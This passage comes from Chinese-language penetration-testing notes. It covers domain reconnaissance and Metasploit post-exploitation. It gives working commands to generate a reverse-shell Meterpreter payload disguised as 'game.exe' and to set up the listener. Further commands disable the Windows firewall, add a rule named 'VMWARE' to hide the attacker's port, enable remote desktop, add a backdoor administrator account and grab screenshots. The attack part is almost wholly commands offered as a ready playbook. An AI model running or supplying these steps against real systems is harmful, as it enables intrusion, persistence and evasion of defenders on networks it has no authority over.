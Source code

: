 4. net group

   ```cmd
   # 查询域控组，定位出域控成员
   net group "domain controllers" /domain
   ```

5. 端口识别

   - 389 -- LDAP ILS: 轻型目录访问协议和`NetMeeting Internet Locator Server` 共用这一端口
   - 53 -- DNS

## Metasploit 内网信息收集

### 1. 反弹shell

```bash
# 1. 生成payload
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.165 lport=2345 -f exe -o game.exe

# 2. 设置监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.1.165
set lport 2345
Exploit

# 3. 目标机器执行payload

# 4. 拿到shell
```

### 2. 关闭防火墙

```bash
# 1. meterpreter 进入 shell 执行如下命令
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles

# 2. 添加防火墙规则隐蔽行为
netsh advfirewall set add rule name="VMWARE" protocol=TCP dir=in localport=5555 action=allow

netsh firewall add portopening TCP 5555 "VMWARE" ENABLE ALL
```

*防火墙规则需要重启系统才能生效*

### 3. 打开 3389 远程桌面端口

```bash
#开启3389远程桌面
run post/windows/manage/enable_rdp
run getgui -e

#可以利用该命令 ，在目标机器上添加用户
run getgui -u admin -p admin
net localgroup administrators admin /add

#远程连接桌面
rdesktop -u username -p password ip

#查看远程桌面
screenshot
use espia
screengrab
screenshare

```